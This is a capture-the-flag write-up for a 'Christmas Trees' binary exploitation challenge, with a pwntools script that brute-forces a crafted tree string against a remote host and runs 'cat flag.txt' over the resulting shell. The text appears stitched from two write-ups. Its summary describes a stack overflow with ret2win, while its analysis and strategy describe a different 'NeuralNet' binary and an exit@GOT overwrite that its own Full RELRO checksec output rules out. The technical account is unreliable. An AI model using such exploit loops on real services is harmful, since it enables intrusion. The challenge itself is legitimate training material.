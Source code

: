 # Christmas Trees - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ChristmasTrees.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

![Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

![Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

![Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

![Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Leak the Binary Base Address

At startup, the program prints the address of the `predict_outcome` function.
We use this leak to calculate the **base address** of the binary.

### Step 2: Overwrite `exit@GOT`

Using the "Neural Intervention" option (option 3), we perform an **arbitrary write** to overwrite the **GOT entry for `exit()`** with the address of the hidden `unlock_secret_research_data()` function.

### Step 3: Trigger the Payload

We select menu option 4 (Exit), which causes the program to call `exit()`.
Because we overwrote its GOT entry, control is redirected to `unlock_secret_research_data()`, which executes `system("/bin/sh")`.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
	io = start()


	io.recvuntil(b'Welcome! What would you like to do? : ')
	io.sendline(b"display")
	io.recvuntil(b'Please enter your encoded christmas tree : ')
	io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
	for i in range(3) :
		io.recvline()

	try:
		io.sendline(b"cat flag.txt")
		flag = io.recvline().strip()
		#log.success(f"FLAG : {flag.decode()}")
		log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

		break

	except:
		io.close()


```

---

## Exploit Output

![Alt text](img/8.png)

---

## Vulnerability Summary

- The binary **leaks a code address** (`predict_outcome`) on startup, allowing us to **calculate the binary base address**.
- The **"Neural Intervention"** feature provides an **arbitrary write primitive** via user-controlled memory writes.
- By overwriting the **GOT entry of `exit()`** with the address of `unlock_secret_research_data()`, we can redirect execution and spawn a shell.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
